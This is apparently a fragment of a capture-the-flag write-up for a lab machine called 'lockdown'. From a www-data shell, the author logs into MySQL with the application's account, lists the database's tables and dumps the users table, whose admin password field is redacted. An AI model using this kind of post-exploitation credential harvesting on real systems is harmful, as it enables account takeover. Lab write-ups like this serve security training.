 ```bash
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
}
www-data@lockdown:/tmp$ mysql -u cts -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 461
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cts_db             |
+--------------------+
2 rows in set (0.00 sec)

mysql> use cts_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------+
| Tables_in_cts_db |
+------------------+
| barangay_list    |
| city_list        |
| establishment    |
| people           |
| state_list       |
| system_info      |
| tracks           |
| users            |
+------------------+
8 rows in set (0.00 sec)

mysql> select * from users;
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
| id | firstname    | lastname | username | password     | avatar                        | last_login | date_added          | date_updated        |
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | 3[REDACTED]d | uploads/1614302940_avatar.jpg | NULL       | 2021-01-20 14:02:37 | 2021-02-26 10:23:23 |
+----+--------------+----------+----------+--------------+-------------------------------+------------+---------------------+---------------------+
1 row in set (0.00 sec)
```